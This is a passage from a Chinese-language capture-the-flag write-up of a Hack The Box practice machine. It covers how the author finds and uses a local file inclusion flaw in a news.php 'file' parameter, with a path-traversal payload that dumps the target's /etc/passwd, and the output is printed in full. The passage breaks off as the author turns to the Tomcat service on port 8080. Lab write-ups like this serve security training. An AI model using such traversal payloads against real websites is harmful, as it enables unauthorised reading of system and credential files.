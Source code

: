 有两个http服务,80是apache，8080是tomcat

## 80端口

80端口打开以后，在```NEWS```栏发现导航到了```http://megahosting.htb/news.php?file=statement"```

把```megahosting.htb```添加到本地host文件

```echo "10.10.10.194 megahosting.htb" >> /etc/hosts```

```NEWS```网页显示:
> We apologise to all our customers for the previous data breach.
> We have changed the site to remove this tool, and have invested heavily in more secure servers

曾经发生过信息泄露，哦？

留意到url里file这个参数，貌似是一个文件名，输入```http://megahosting.htb/news.php?file=../../../../../etc/passwd```

成功回显靶机```/etc/passwd```内容，证明存在LFI

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

存在一个普通用户```ash```

对于不存在，或者没有权限的文件，页面不会有任何返回。

## 8080端口服务

在8080端口首页，暴露出了一些信息，结合80端口的LFI，也许能搞点事情
```
